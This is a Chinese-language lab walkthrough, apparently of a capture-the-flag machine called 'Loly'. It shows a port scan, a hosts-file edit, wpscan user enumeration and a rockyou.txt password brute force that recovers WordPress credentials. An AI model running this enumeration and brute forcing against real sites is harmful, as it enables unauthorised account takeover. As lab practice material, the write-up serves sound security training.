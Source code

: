 # Loly
## 0. 准备阶段
```
本机IP:
192.168.45.233
目标IP:
192.168.212.121
```
## 1. 信息收集
```
端口：
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)

目录：
http://192.168.212.121/wordpress/

CMS：
Wordpress
```
## 2. 立足点获取
### 小TIPS
这个界面看着有点晕
![[QQ_1724110334083.png]]
看到左下方有个 `loly.lc`，进入 `/etc/hosts` 文件，增加一行
```
192.168.212.121 loly.lc
```

然后不管是输入 IP ，还是输入域名，主界面都变美观了
![[QQ_1724110600872.png]]

![[QQ_1724110614066.png]]

OK，我们继续，由于这是 `wordpress`，可以用专门对付这类 CMS 的扫描器，`wpscan`
```
wpscan --url http://loly.lc/wordpress/ --enumerate u
```

扫出一个用户
![[QQ_1724111028001.png]]

用 `rockyou.txt` 字典进行爆破
```
wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```

成功，`loly : fernando`
![[QQ_1724112073092.png]]
